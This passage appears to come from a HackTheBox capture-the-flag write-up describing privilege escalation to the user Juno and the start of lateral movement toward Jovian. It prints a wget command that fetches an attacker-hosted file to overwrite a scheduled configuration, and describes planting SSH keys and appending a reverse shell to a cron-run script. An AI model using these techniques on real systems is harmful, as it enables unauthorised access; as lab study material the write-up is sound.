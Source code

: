 ```bash
wget http://my-ip/network-simulation.yml -O network-simulation.yml #this replaced the originla file with my file.
```

Executing this modified file yielded a bash binary with Juno's privileges in the /tmp directory. I executed this binary and successfully obtained a shell as "Juno":

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/844400c6-3f6f-4619-95a1-d50bccef3ec4)

Although I now had access to Juno's account, I still lacked the required permissions to read the user flag:

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/a7204f90-f014-4225-9e42-1ff5f1c2f2c6)

So, to mitigate this issue I created a SSH key pair & dropped the public key into Juno "authorized key" folder:

```bash
ssh-keygen
```
To address this issue, I generated an SSH key pair, placed the public key in Juno's "authorized_keys" folder, and leveraged my private key to SSH into Juno's account. This final step allowed me to access the user flag. (Pwn3d! 🙂)

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/c0ffd53e-d3b7-4b88-886a-00db416007d8)

### method 2:

Following a short break, I discovered that my write access to the SSH authorized keys had been revoked after the machine restart. This posed a new challenge in gaining access to Juno's account. As a result, my approach shifted towards leveraging the "shadow-simulation.sh" script to run a bash reverse shell under Juno's privileges.

To execute the bash reverse shell, I augmented the "shadow-simulation.sh" script by appending a bash one-liner at the end:

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/c6c8ca7b-745b-4124-9cce-6c7a49336ec4)

Running the scheduled script once more provided me with access to Juno's account, thus enabling me to proceed with my exploration.

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/78647cba-51fe-4f13-9fe5-4f11999e0a51)


-----------------------------------------------------------------------------------------------------------------------------------------------------------------------

## Lateral movement:

Having secured the user flag from Juno, my attention shifted towards Jovian. To ascertain any processes running under Jovian's privileges (UID = 1001), I re-executed pspy. There, I stumbled upon a machine learning script executed via Jupyter notebook, located at the path: "**/opt/solar-flares/flares.ipynb**".

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/63d1b8ac-788f-4a8c-bd01-0a76efa5876f)

